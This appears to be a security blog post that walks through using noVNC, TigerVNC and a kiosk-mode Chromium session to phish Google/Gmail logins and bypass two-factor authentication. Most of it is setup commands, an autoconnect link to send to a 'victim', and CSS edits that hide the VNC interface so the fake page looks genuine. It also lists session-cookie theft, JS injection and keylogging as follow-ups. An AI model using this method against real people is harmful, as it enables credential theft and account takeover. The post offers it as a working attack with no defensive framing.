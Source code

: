 ```yaml
---
layout: post
title: Exploiting noVNC for 2FA Bypass
date: 2025-02-07
categories: [Exploits]
tags: [Exploits, noVNC, 2FA Bypass]
permalink: /posts/Exploiting-noVNC-for-2FA-Bypass/
image:  
  path: /assets/img/thumbnails/NoVNC.png
---
```




# **Using noVNC for Credential Acquisition and Bypassing 2FA**

**noVNC** is both a **JavaScript library for VNC clients** and an application built on top of this library. Compatible with **any modern browser**, including mobile versions for iOS and Android, noVNC allows the web browser to function as a **VNC client**, enabling **remote access to a machine**.

So, how can we use noVNC to **acquire credentials** and **bypass 2FA**? Here's the process:

1. Set up a server with noVNC.
2. Start **Chromium** (or any other browser) in **Kiosk mode**.
3. Direct it to the desired website for user authentication (e.g., `accounts.google.com`).
4. Send the link to the target user. When they click the URL, they will access the **VNC session** without realizing it.
5. Since Chromium is configured in **Kiosk mode**, the user experience will appear as a normal web page.

---

## **Exploitation Possibilities**

The exploitation possibilities of this method are **vast**:

- **Inject JS** into the browser.
- Use an **HTTP proxy** connected to the browser to log all activities.
- **Terminate the VNC session** after user authentication.
- Capture the **browser session token** (Right-click > Inspect > Application > Cookies) after the user disconnects.
- Run a **background keylogger**.
- Or **get creative** and find other approaches (remember, the server is yours).

---

## **noVNC Setup and Demonstration**

### **1. Deploy a Kali Linux Instance**

Use any **cloud service provider** or deploy locally to set up a Linux machine. I will use **Kali Linux** for this demonstration because I prefer it, but you can choose any other Linux distribution you are comfortable with.

---

### **2. Install TigerVNC**

First, you need to install **VNC software**. I tested two options: **X11vnc** and **TigerVNC**. After several tests, I chose to use **TigerVNC**.

```shell
sudo apt update
sudo apt install tigervnc-standalone-server tigervnc-xorg-extension tigervnc-viewer
```

---

### **3. Set Up a VNC Password**

```shell
vncpasswd
```

On Kali Linux, I didn’t need to create the `xstartup` file, but if you encounter any errors, you can configure it manually.

```shell
nano ~/.vnc/xstartup
```

Paste or write the following:

```bash
#!/bin/sh
xrdb "$HOME/.Xresources"
xsetroot -solid grey
x-terminal-emulator -geometry 80x24+10+10 -ls -title "$VNCDESKTOP Desktop" &
x-window-manager &
# Fix to make GNOME work
export XKL_XMODMAP_DISABLE=1
/etc/X11/Xsession
```

Add execution permissions:

```shell
chmod +x ~/.vnc/xstartup
```

---

### **4. Restart the VNC Server**

Restart the VNC server, choosing the **screen size settings** according to your needs. noVNC automatically adjusts to the browser's screen size, but do your own testing.

```shell
vncserver -depth 32 -geometry 1920x1080
```

---

### **5. Download and Run noVNC**

```shell
git clone https://github.com/novnc/noVNC.git
```

OR

```shell
apt install novnc
```

Now run noVNC **locally** or **publicly**. Here are the commands:

- **Check the VNC server port:**

```shell
vncserver -list
```

Example: `5901`, `5902`, `5903`, etc.

- **Run noVNC:**

```shell
./noVNC/utils/novnc_proxy --vnc localhost:5901
```

- **Set up an SSH tunnel:**

```shell
ssh -L 6080:127.0.0.1:6080 root@server
```

- **Run publicly using port 8081:**

```shell
ufw allow http
./noVNC/utils/novnc_proxy --vnc 0.0.0.0:5901 --listen 8081
```

---

### **6. Access VNC and Run the Browser in Kiosk Mode**

Access your VNC and run the browser in **Kiosk mode**. I used **Chromium**, but you can use whatever suits your needs.

```shell
chromium --no-sandbox --app=https://gmail.com --kiosk
```

---

### **7. Send the URL to the "Victim" to Connect Automatically**

```shell
http://127.0.0.1:6080/vnc.html?autoconnect=true&password=YOUR-PASSWORD
```

The `autoconnect=true&password=VNCPASSWORD` will make the user authenticate automatically. If you want to rename the query parameter, you can modify the `vnc.html` file.

---

### **8. Modify the CSS to Remove Visual Elements**

noVNC displays a **custom loading page**, a **VNC control bar**, and some additional unnecessary visual elements that should be removed.

Open `vnc.html`, find the `divs` below, and add the CSS style shown.

```html
<!-- Hide unnecessary items -->
<div id="noVNC_control_bar_anchor" class="noVNC_vcenter" style="display:none;">
<div id="noVNC_status" style="display:none"></div>

<!-- Makes the loading page white -->
<div id="noVNC_transition" style="background-color:white;color:white">
```

---

## **Important Notes**

- **You are giving remote access to your machine!** It should not have anything valuable stored on it.
- Any logged data should likely be sent to a **remote machine**.
- **Do not use the root account.** Set up a restricted user account that uses the VNC service.
- Configure the **Kiosk mode** more restrictively.
